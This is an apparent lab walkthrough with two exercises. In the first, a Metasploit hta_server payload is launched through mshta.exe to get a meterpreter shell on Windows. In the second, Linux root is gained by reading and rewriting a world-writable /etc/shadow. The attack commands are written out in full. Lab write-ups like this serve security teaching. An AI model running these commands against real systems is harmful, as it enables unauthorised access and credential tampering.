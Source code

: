 ```shell
# Switch to the Kali Machine.
# Running the hta_server module to gain the meterpreter shell.
msfconsole -q
use exploit/windows/misc/hta_server
# This module hosts an HTML Application (HTA) that when opened will run a payload via Powershell.
exploit
# Copy the generated payload

# Switch to Victim Machine
mshta.exe <generated_payload>
# mshta.exe is a legitimate Windows utility used to execute Microsoft HTML Applications (HTA).
# An HTA (HTML Application) is a file with the .hta extension that combines HTML, CSS, and scripting languages like VBScript or JavaScript to create a Windows-based GUI application.

# We can expect a meterpreter shell.
sessions -i 1
cd C:\\Users\\Administrator\\Desktop
dir
cat flag.txt
```

### 5.3. Linux Privilege Escalation - Permissions Matter!

**Objective:** Your mission is to get a root shell on the box and retrieve the flag!

```shell
ping -c 1 <target_IP>

# Open a browser and navigate to the following URL to explore the service running on port 8000

# This command searches the entire filesystem (/) for files or directories that are not symbolic links (-not -type l) and are world-writable (-perm -o+w). It helps identify potentially insecure files that anyone on the system can write to, which can be a security risk.
find / -not -type l -perm -o+w

# Observe from the result that /etc/shadow is world writable. Verify the same and also check its contents.
ls -l /etc/shadow
cat /etc/shadow

# Observe that the root password is not set. Adding a known password in the shadow file can escalate to root. Use openssl to generate a password entry. - root:*:... -
openssl passwd -1 -salt abc password

# Copy the generated entry and add it to the root record in /etc/shadow
vim /etc/shadow
<root:HASH:...>

# After making the changes, try to switch to the root user.
su

# Once the escalation to root is complete, retrieve the flag located in /root directory.
cd /root
ls -l
cat flag
```
